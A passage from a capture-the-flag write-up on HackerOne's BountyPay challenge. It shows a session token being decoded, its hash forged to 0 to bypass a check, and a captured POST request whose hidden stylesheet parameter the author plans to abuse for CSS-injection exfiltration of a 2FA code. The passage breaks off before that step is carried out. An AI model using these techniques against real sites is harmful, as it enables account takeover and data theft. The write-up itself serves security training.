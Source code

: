 Our new token is

```
token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
```

Decoded we get.

```
<@base64_4>{"account_id":"Ae8iJLkn9z","hash":"3616d6b2c15e50c0248b2276b484ddb2"}<@/base64_4>
```

And test that replacing the hash with 0 still works.

```
<@base64_4>{"account_id":"Ae8iJLkn9z","hash":0}<@/base64_4>
```

Still works. I should have stuck with brute forcing the account id. Ae8iJLkn9z was going to be my next guess.

## The End

On the dashboard, we select 05/2020 and click 'Load Transactions'.

A table row appears indicating we owe Hacker 272 over $200,000!

This is it! We can pay the hackers now!

We click the green [Pay](https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba) button. And we find the flag!

{F859856}

# Epilogue

Actually, we hit another 2FA screen.

I click the 'Send Challenge' button. Glancing over at the Burp history we see that the request includes a hidden parameter.

```http
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```

Ok, we'll need to use [CSS injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d).

I turn one of my wordlists into a stylesheet using regex find and replace in VSCode.

F859855
